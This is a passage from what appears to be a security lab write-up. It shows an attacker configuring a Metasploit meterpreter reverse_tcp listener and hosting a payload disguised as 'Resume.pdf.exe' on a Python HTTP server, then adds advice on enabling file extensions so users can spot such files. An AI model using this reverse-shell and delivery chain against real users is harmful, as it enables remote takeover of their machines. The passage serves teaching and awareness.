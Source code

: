 The commands `ls` and `file Resume.pdf.exe` are used to verify the presence of the generated payload file and confirm its file type as a Windows executable.

<img width="603" height="317" alt="Lab 204" src="https://github.com/user-attachments/assets/28eaebe8-ff59-4c9a-80ca-9fd9815a45cf" />

---

### Step 3: Setting Up a Metasploit Listener for a Reverse TCP Shell

```bash
msfconsole
```

```bash
set payload windows/x64/meterpreter/reverse_tcp payload
```

```bash
set lhost 192.168.20.20
```

```bash
options
```

The attacker is launching the Metasploit console `msfconsole`, configuring it to use the `windows/x64/meterpreter/reverse_tcp payload`, and setting the local host `lhost` IP address to `192.168.20.20`, which prepares the listener to receive a reverse connection from the target system.

<img width="593" height="334" alt="Lab 205" src="https://github.com/user-attachments/assets/69f11c14-5674-435c-baf5-82906215863e" />

---

### Step 4: Hosting a Malicious Payload Using a Python HTTP Server

```bash
ls
```

```bash
python3 -m http.server 9999
```

The attacker lists the current directory with `ls`, then uses `python3 -m http.server 9999` to start a simple HTTP server on `port 9999`, allowing files in that directory (such as a malicious payload) to be served and downloaded by a target machine.

<img width="493" height="256" alt="Lab 79" src="https://github.com/user-attachments/assets/98f1f922-ef4b-49ef-8f23-fec7373ebfec" /></br>

<img width="316" height="209" alt="Lab 206" src="https://github.com/user-attachments/assets/aec51636-2e18-4075-b114-70bf6a838ecf" /></br>

<img width="783" height="168" alt="Lab 207" src="https://github.com/user-attachments/assets/d0256e34-a026-4331-936f-3f5358de998c" /></br>

*Note: Having `file extensions` enabled is important because it allows users to see the true format of a file, helping them identify potentially malicious files disguised with misleading names (e.g., `resume.pdf` that is actually `resume.pdf.exe`). Without extensions visible, users may unknowingly open executable files thinking they are safe documents, increasing the risk of malware execution.*

---